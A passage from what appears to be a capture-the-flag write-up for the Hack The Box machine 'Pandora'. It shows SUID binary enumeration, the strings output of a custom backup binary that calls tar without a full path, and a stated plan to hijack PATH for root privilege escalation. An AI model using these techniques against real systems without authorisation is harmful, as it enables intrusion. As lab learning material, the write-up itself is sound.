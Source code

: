 ```bash
id
uid=1000(matt) gid=1000(matt) groups=1000(matt)
matt@pandora:/home/matt$
matt@pandora:/tmp$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/umount
/usr/bin/pandora_backup
/usr/bin/passwd
/usr/bin/mount
/usr/bin/su
/usr/bin/at
/usr/bin/fusermount
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
matt@pandora:/tmp$
```

I checked the pandora_backup file and transfered it to the attacker machine →

```python
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ strings -n 20 pandora_backup 
/lib64/ld-linux-x86-64.so.2
_ITM_deregisterTMCloneTable
_ITM_registerTMCloneTable
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
Check your permissions!
Terminating program!
GCC: (Debian 10.2.1-6) 10.2.1 20210110
deregister_tm_clones
__do_global_dtors_aux
__do_global_dtors_aux_fini_array_entry
__frame_dummy_init_array_entry
_GLOBAL_OFFSET_TABLE_
_ITM_deregisterTMCloneTable
__libc_start_main@GLIBC_2.2.5
setreuid@GLIBC_2.2.5
_ITM_registerTMCloneTable
__cxa_finalize@GLIBC_2.2.5
```

I need to create a tar executable in a path and set the path accordingly so that my tar could execute in place of the real tar file before that I need to have a proper shell so.

